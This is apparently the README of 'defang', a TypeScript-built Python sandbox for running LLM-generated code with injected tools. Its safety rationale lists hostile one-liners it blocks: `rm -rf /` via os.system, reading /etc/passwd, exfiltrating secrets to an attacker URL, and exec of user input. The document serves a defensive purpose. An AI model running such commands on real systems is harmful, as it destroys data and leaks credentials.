

<p align="center">
  
</p>

# defang

**A sandboxed Python interpreter written in TypeScript.** Safely run Python code emitted by LLMs and agents — no filesystem access, no network access, no escape to the host process, and inject your own functions.

[](LICENSE)
[](https://www.typescriptlang.org/)

> **de·fang** _(verb)_ — to render harmless while keeping analyzable. In security tooling, to "defang" a payload is to strip its ability to execute dangerously while preserving its shape. This project does the same to Python.

---

## Why defang?

LLMs love writing Python. It's the lingua franca of data work, scripting, and most agent toolchains. But handing an agent a real Python runtime is a liability:

- `import os; os.system("rm -rf /")` — full shell access
- `open("/etc/passwd").read()` — arbitrary filesystem reads
- `import requests; requests.get(attacker_url, data=secrets)` — data exfiltration
- `exec(user_input)` — arbitrary code execution

`defang` executes Python without any of this. There is no module system, no filesystem, no network, no `exec`/`eval`, no `subprocess` — because **none of those exist in the interpreter**. You cannot disable a feature that was never implemented.

The only I/O channel is **tools you explicitly inject from TypeScript**. If you don't provide a tool, the Python code cannot call it.

---

## Install

```bash
npm install defang
# or
bun add defang
```

## Quick start

```typescript
import { runPython } from "defang";

const result = await runPython(`
total = sum([x * 2 for x in range(10) if x % 2 == 0])
f"Total: {total}"
`);

console.log(result); // "Total: 40"
```

### With tool injection

Tools are the only way Python code can reach data outside the interpreter:

```typescript
import { runPython } from "defang";

const result = await runPython(
  `
transactions = fetch_transactions("2026-04")
total = sum([t['amount'] for t in transactions if t['amount'] > 0])
f"Inflow: {total}"
  `,
  [
    {
      name: "fetch_transactions",
      description: "Fetch transactions for a given month (YYYY-MM).",
      handler: async (month: string) => {
        return await db.transactions.findMany({ where: { month } });
      },
    },
  ],
);
```

Handlers can be synchronous or async. The interpreter awaits async handlers automatically.

### Reusable interpreter

```typescript
import { createInterpreter } from "defang";

const interpreter = createInterpreter({
  tools: [...],
  onPrint: (msg) => logger.info(msg),
  maxIterations: 10_000, // lower for untrusted input
});

const a = await interpreter.run(codeOne);
const b = await interpreter.run(codeTwo);
```

---

## What's supported

A quick overview — see [`FEATURES.md`](./FEATURES.md) for the authoritative list with TypeScript analogues for every feature.

**Works:** numbers, strings, f-strings (including format specs and nested quotes), booleans (with int arithmetic), `None`, lists, tuples, dicts, sets, comprehensions (list, dict, set), `if`/`elif`/`else`, `for`/`while` (with `else` clauses), `break`/`continue`/`pass`, `try`/`except`/`finally`, `raise`, function definitions with `*args`/`**kwargs` and defaults, closures, lambdas (including as keyword arguments), decorators, generators (`yield`, `yield from`, `next()`), chained assignment (`x = y = 5`), tuple unpacking, chained comparisons (`0 < x < 10`), slicing, `and`/`or`/`not`, bitwise operators, ternary expressions, walrus (`:=`), string/list/dict/set methods, and ~40 built-ins (`len`, `range`, `sum`, `sorted`, `enumerate`, `zip`, `map`, `filter`, `any`, `all`, `print`, `iter`, `next`, `hash`, `id`, etc.).

### Not supported

| Feature | Reason |
|---|---|
| `import` / modules | **Safety.** No module system exists — there is nothing to import. |
| `exec` / `eval` / `compile` | **Safety.** Dynamic code execution would bypass the sandbox. |
| `open` / filesystem I/O | **Safety.** No filesystem access. Data comes in through tools. |
| `__import__` / `globals` / `locals` | **Safety.** Introspection escapes could leak or mutate interpreter state. |
| Network / subprocess | **Safety.** No `os`, `socket`, `subprocess`, `urllib`, or `requests`. |
| `class` definitions | **Not useful for agents.** AI-generated sandbox code is short and procedural — dicts, tuples, and functions cover every practical case. Classes are a code organization tool for larger programs. |
| `with` statement | **Blocked by classes.** Context managers require `__enter__`/`__exit__` methods, and every real-world use case (`open()`, DB connections, locks) involves I/O that the sandbox doesn't have. |
| `async` / `await` | **Not applicable.** The sandbox has no I/O to await. Concurrency is not meaningful in a single-threaded, network-free interpreter. |
| `input()` | **Not applicable.** There is no interactive stdin. Data should be passed in via tools. |
| `str.encode()` / `bytes` type | **Not useful for agents.** Binary data handling is irrelevant in a text-processing sandbox. |
| Default mutable argument sharing | **Intentional deviation.** In CPython, `def f(x=[]):` shares the list across calls — a well-known footgun. defang creates a fresh default each call, which is safer for sandboxed use. |

---

## Safety model

`defang` is safe by _construction_, not by _configuration_. The dangerous Python features simply do not exist in this interpreter — there is no flag to enable them and no module to import them from.

| Attack surface         | Status                                                   |
| ---------------------- | -------------------------------------------------------- |
| Filesystem access      | Absent (`open` is not defined)                           |
| Network access         | Absent (no `urllib`, `requests`, `socket`)               |
| Shell / subprocess     | Absent (no `os`, `subprocess`)                           |
| Dynamic code execution | Absent (no `exec`, `eval`, `compile`, `__import__`)      |
| Module imports         | Absent (no module system)                                |
| Introspection escape   | Absent (no `globals()`, `locals()`, `__dict__`)          |
| Infinite loops / DoS   | Bounded by `maxIterations` (default 100,000)             |
| Host memory exhaustion | **Not bounded** — validate tool inputs (see below)       |
| Host CPU exhaustion    | **Bounded loosely** via iteration limit — not wall-clock |

### Residual risks (yours to own)

1. **Tool handlers are trust boundaries.** Whatever a tool handler does with its arguments is on you. If a tool runs SQL, parameterize it. If a tool calls out to a system, validate inputs.
2. **Memory.** `[0] * 10_000_000` is legal Python and `defang` will happily allocate it. Put a memory budget on your Node/Bun process if you're running untrusted input.
3. **Wall-clock.** Iteration-counting prevents infinite loops but does not cap wall-clock time. Run untrusted code in a worker with a timeout.

---

## API

### `runPython(code, tools?, onPrint?)`

One-shot execution. Returns the value of the last expression, or `None` if the code ends in a statement.

### `createInterpreter(options)`

Long-lived interpreter. Options:

- `tools: ToolDefinition[]` — functions callable from Python
- `onPrint: (msg: string) => void` — called for every `print()` invocation
- `maxIterations: number` — loop iteration budget (default 100,000)

### `ToolDefinition`

```typescript
interface ToolDefinition {
  name: string;
  description?: string;
  handler: (...args: any[]) => any | Promise<any>;
}
```

### `generateToolsPrompt(tools)`

Produces a system-prompt fragment describing available tools, for use with Claude / other LLMs.

---

## Architecture

```
source code ──► lexer ──► tokens ──► parser ──► AST ──► interpreter ──► value
                                                              │
                                                              └─► tool handler (TS)
```

- `src/lexer.ts` — tokenizer, including INDENT/DEDENT tracking
- `src/parser.ts` — recursive-descent parser producing the AST
- `src/ast.ts` — AST node types
- `src/interpreter.ts` — tree-walking evaluator
- `src/builtins.ts` — built-in functions and string/list/dict methods
- `src/values.ts` — runtime value types
- `src/errors.ts` — Python-like exception types

---

## Development

```bash
bun install             # install devDependencies
bun test                # run the full suite
bun run test:features   # run the behavioral feature suite
bun run typecheck       # tsc --noEmit
bun run build           # emit dist/
```

Contributions welcome. Two rules:

1. **Never add a capability that widens the safety boundary.** No module system, no `exec`, no filesystem, no network. If you want to expose something to Python code, add it as a tool, not as a built-in.
2. **Match CPython behavior.** When in doubt, open a real Python REPL and observe. The test suite is the spec.

---

## A note on AI-assisted authorship

A substantial portion of this codebase was written with the help of Claude. I'm flagging it up front because transparency matters and because I want to explain why I think this is a reasonable approach here — not a general endorsement, but a case for _this specific kind of project_.

**A Python interpreter is a black box with a very well-defined contract.** The contract is "behave like CPython for the supported subset." That contract is:

- **Externally specified.** Python's semantics are documented, tested, and can be verified against a reference implementation that ships with every major OS. If `defang` says `int(-3.9) == -3`, I can check that in a real Python REPL in five seconds.
- **Mechanically testable.** Every behavioral claim is a unit test. Given input X, produce output Y. There is very little room for "it works but it's subtly wrong" in a way that tests wouldn't catch — and when there is, the right fix is to add a test, not to re-audit the code by hand.
- **Narrowly scoped.** The code does one thing: interpret a stream of Python tokens and produce values. It does not make network calls, write to disk, or interact with shared state. The blast radius of a bug is "the code returns the wrong answer," not "the code leaks user data."

For projects like this — interpreters, parsers, codecs, protocol implementations, math libraries, anything with a reference spec and deterministic I/O — I believe the honest engineering question is not "who typed this?" but "is the behavior correct, and can you prove it?" The test suite is the proof. If `bun test` passes and the coverage is honest, the implementation is sound whether a human, an AI, or a team of both produced it.

I would not make the same argument about a project where the spec _is_ the code itself — a novel system design, a security-critical protocol, a piece of infrastructure where the blast radius extends beyond its return value. Those warrant human review line by line. `defang` is not that project.

If you find a case where `defang` diverges from CPython, please [file an issue](https://github.com/ianjaku/defang/issues) with a minimal repro. That's the contract.

---

## License

MIT © Ian Jakubek — see [LICENSE](LICENSE).
